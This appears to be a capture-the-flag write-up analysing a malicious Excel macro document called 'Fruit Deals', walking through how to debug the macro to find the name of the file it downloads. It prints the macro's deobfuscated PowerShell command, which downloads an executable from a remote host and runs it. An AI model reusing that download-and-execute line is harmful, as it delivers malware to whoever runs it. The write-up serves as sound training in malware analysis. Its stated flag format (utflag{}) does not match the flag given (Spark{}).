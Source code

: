 <!-- 
<h3 align="center">CS student and a passionate web developer</h3> -->

<!--   my-ticker -->    
<!-- &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;[![Typing SVG](https://readme-typing-svg.herokuapp.com?color=%ADFF2F&center=true&vCenter=true&width=600&lines=S4L1M+F4K3-RooT+Player")](https://git.io/typing-svg) -->

<p align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com?color=%ADFF2F&center=true&vCenter=true&width=600&lines=S4L1M+F4K3-RooT+Player" alt="Typing SVG">
  </a>
</p>

## Fruit Deals  	

### Infos About challenge : 

![](Screenshot/P1.png)




### Description : 

##### I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

##### The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though


## solution:



### step 1 : Open Deals.xlsm 



![](Screenshot/P2.png)

##### You notice that That have error everywhere 

##### After doing some Research about caracterstique of .xlsm file I found macros 


### step 2 : Open The macros Code and Reverse it 

##### you can Have the list of macros by Click on Developer button in uppbar if you don't have it enable devloper mode in the seetings 



![](Screenshot/P20.png)

#### After that click on Macros



![](Screenshot/P3.png)


#### When you try to run autoopen macros , It Open a youtube video 

### So we should click On Edit Button not Run 

![](Screenshot/P4.png)


### You can notice that the macros is open an Url and download an program before opening The Youtube Url 

![](Screenshot/P5.png)


### Step 3 : Find the name of file that is downloaded 


#### To do this we should debug the macro and make Break point in the line after of this line  
#### f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + ...............

![](Screenshot/P6.png)



### Now Just open the locals windows in View list 

![](Screenshot/P7.png)


### So you can notive the the file name of the programme downloaded is in the "CNTA" 

#### f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}""


### Congratulation the name of the program is : banANA-Hakrz09182afd4.exe 




### Flag:

### Spark{banANA-Hakrz09182afd4.exe}
